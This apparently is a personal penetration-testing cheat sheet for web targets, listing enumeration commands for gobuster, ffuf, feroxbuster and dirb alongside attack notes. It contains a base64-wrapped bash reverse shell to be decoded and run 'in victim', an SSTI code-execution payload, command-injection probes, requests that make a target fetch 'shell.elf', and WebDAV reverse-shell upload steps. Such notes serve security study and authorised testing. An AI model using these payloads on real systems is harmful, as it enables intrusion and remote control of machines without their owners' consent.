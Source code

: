 # Web Ass Tool

## Web Enum
- curl traversal check ``` curl --path-as-is {URL} ```

## Nmap
- Use NSE script
``` http-num  ```

## Use Gobuster 

### Source code
1. ctrl-u to read source code
2. Try finding libraries, engine, plugins, hyperlinks

### Guess what framework / language is using!
- ``` whatweb ```
- Can be identify by error in error page e.g. "Whitelabel Error Page" = Springboot 
- Try "SecList/Discovery/Web-Content/spring-boot.txt"

###  Gobuster fuzzing
1.  ``` gobuster dir -u {ip} -w /usr/share/wordlists/dirb/common.txt -t 42 ```

    ``` -x txt,bak,php,html,js,asp,aspx ```can add filetype here (https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

    ``` -d ``` discover backup file e.g. .bak

### Gobuster enum API
- Provide pattern in pattern file
    ``` {GOBUSTER}/v1 ```

### Gobuster enun vhost
1. ``` gobuster vhost -u {http://goolugoolu.com} -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  ```

### Enum (RECURSIVELY IF NEEDED!)
    ``` gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern -t 42```

### Try harder !
- Try more seclists
    ```
    /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
    /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    ```
- Enum try more file extension!!! (Dont be lazy)
- if website is not case-sentitive can use single case only wordlist

### With proxy simple!
- ``` HTTP_PROXY="http://192.168.153.189:3128/" gobuster dir -u http://192.168.153.189:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 42  ```

## feroxbuster 
- Support recursive and interactive scanning
- ``` feroxbuster -k -u {url} -x {file_type} -o {outputfile} -w {wordlist} ```
### Stop scanning some path within progress
1. Hit 'enter' to start menu
2. ``` c -f {number of branch} ```

## ffuf
### Check subdomain
- ```ffuf -u http://{ip} -H "Host:FUZZ.{hostname}" -w /usr/share/seclists/discovery/dns/subdomains-top1million.txt ```
- ``` -fc 403 ``` filter code = 403
- ``` -fs 1234 ``` filter size = 1234
### Check special character
- ``` using /opt/seclists/fuzzing/special-char.txt ```

## SSTI
- https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti 
- ``` ${{<%[%'"}}%\. ``` Testing these character

### Check which character can be use
1. Try calling the get/post in burp
2. right click the request and "Copy to file"
3. edit the file and add "FUZZ" to the request
4. fuzz ``` fuzz -request search.req -request-proto http -w /usr/share/SecLists/Fuzzing/special-chars.txt ```
5. check which character is vulnerable ( sometimes maybe result size = 0 is )
6. can try code execution e.g. python: maybe code have ```eval()``` and you can ```__import__('os').system(whoami)```

### Java: check link
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Base64 encode and decode a one liner
1. ``` echo -n "bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'" | base64 ``` encode
2. ``` echo -n {base64encoded} | base64 -d | bash``` decode and run in victim
   
### Bash command injection
- try url encode also if normal not working
- ```;{sleep 2};```
- ```; sleep 2; ```

## Burp Suite
- You know what to do =]

## Dirb
- check hidden shit
- ``` dirb http://192.168.1.224/ /usr/share/wordlists/dirb/common.txt ```

## Traversal with gobuster if can access machine file system
- e.g. ../../...../Users/Hayer/{Gobuster}.txt .pdf etc...

- curl POST ``` curl -X POST -d "code=2*2" http://192.168.171.117:50000/verify```

- curl POST w/ JSON ``` curl -v -X POST -H "Content-Type: application/json" -d '{"user":"clumsyadmin", "url":"http://192.168.45.197/shell.elf"}' "http://192.168.173.134:13337/update"  ```

- useful file 
1. .htaccess will tell you some hidden allowed key pair header --> add = can access 
   ``` do with burp suite browser
    - proxy -> option -> match and place --> request header & replace: {new header} --> ok
   ```

- Useful url

    ``` sitemap.xml robots.txt ```

- Useful header info

    ``` X-??? ```

- http file to markdown
  ``` curl -s http://192.168.244.140:8000/ | html2markdown ```

## wFuzz
- https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz 
1. ``` wfuzz -c -z file,/usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -d '{"user":FUZZ,"url":"http://192.168.45.197/shell.elf"}' -H "Content-Type: application/json" -t 20 -v http://192.168.173.134:13337/update ```

# Try Default password !!!

## HTML entity encoder
- https://mothereff.in/html-entities 
- e.g. for java <xml>

# Webdav hacks
- if allow public method POST
## Inject rev shell
1. ``` cadaver http://192.168.219.122 ```
2. input user name
3. input password
4. ``` put sussy.baka ```
